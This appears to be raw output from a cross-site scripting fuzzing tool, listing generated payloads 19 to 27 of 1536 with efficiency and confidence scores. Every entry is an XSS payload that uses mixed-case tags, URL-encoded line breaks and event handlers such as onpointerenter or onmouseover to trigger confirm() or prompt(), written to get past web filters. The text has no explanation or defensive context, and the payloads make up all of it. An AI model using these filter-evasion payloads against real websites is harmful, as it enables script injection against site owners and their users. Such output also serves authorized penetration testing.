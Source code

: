 ------------------------------------------------------------
 Payload: <DETaiLs%0donPoINteRentEr+=+(confirm)()// 
 Efficiency: 92 
 Confidence: 10 
 Progress: 19/1536
 
------------------------------------------------------------
 Payload: <htmL%0dONPoiNTereNtEr+=+[8].find(confirm)%0dx// 
 Efficiency: 92 
 Confidence: 10 
 Progress: 20/1536
 
------------------------------------------------------------
 Payload: <DetAILs%0donPOinteREnteR+=+confirm()// 
 Efficiency: 91 
 Confidence: 10 
 Progress: 21/1536
 
------------------------------------------------------------
 Payload: <D3v%0dONPoinTerENtER+=+(confirm)()%0dx//v3dm0s 
 Efficiency: 92 
 Confidence: 10 
 Progress: 22/1536
 
------------------------------------------------------------
 Payload: <d3v/+/oNMousEoVeR%09=%09(prompt)``%0dx//v3dm0s 
 Efficiency: 92 
 Confidence: 10 
 Progress: 23/1536
 
------------------------------------------------------------
 Payload: <a/+/oNMOusEoVEr%0a=%0a(prompt)``//v3dm0s 
 Efficiency: 91 
 Confidence: 10 
 Progress: 24/1536
 
------------------------------------------------------------
 Payload: <d3v/+/oNpOiNtEReNTER%0d=%0d(prompt)``%0dx//v3dm0s 
 Efficiency: 92 
 Confidence: 10 
 Progress: 25/1536
 
------------------------------------------------------------
 Payload: <Html/+/OnmOUseOVeR%0d=%0dconfirm()%0dx// 
 Efficiency: 91 
 Confidence: 10 
 Progress: 26/1536
 
------------------------------------------------------------
 Payload: <D3v%0aonmOuSeOVeR+=+a=prompt,a()//v3dm0s 
 Efficiency: 92 
 Confidence: 10 
 Progress: 27/1536
 